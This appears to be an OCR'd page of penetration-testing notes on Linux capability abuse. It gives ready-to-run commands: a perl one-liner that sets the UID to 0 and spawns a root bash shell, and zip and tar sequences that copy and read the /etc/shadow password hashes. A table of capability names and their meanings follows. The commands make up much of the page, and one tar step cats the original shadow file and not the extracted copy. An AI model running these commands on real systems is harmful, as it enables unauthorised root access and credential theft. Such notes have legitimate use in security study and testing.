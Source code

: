 Privilege escalation with `cap_setuid+ep` and `Perl`
```powershell
$./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
#•	perl -e allows us to execute perl code.
#•	use POSIX (setuid); imports the required module.
#•	POSIX::setuid(0); sets the UID to 0, which is root.
#•	exec "/bin/bash"; executes bash as root.
```

Privilege escalation with `cap_dac_read_search` and `zip`
```powershell
$/path/to/zip /tmp/shadow.zip /etc/shadow
#/path/to/ is the directory of the zip file with the added capability.
#Next, we extract that archive: 
$unzip /tmp/shadow.zip -d /tmp
#Then, we can simply read the file: 
$cat /tmp/etc/shadow
```
Privilege escalation with `tar = cap_dac_read_search+ep`
```powershell
$tar -cvf shadow.tar /etc/shadow
$tar -xvf shadow.tar
$cat /etc/shadow
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypass file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |
| CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |
Reference: [Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)
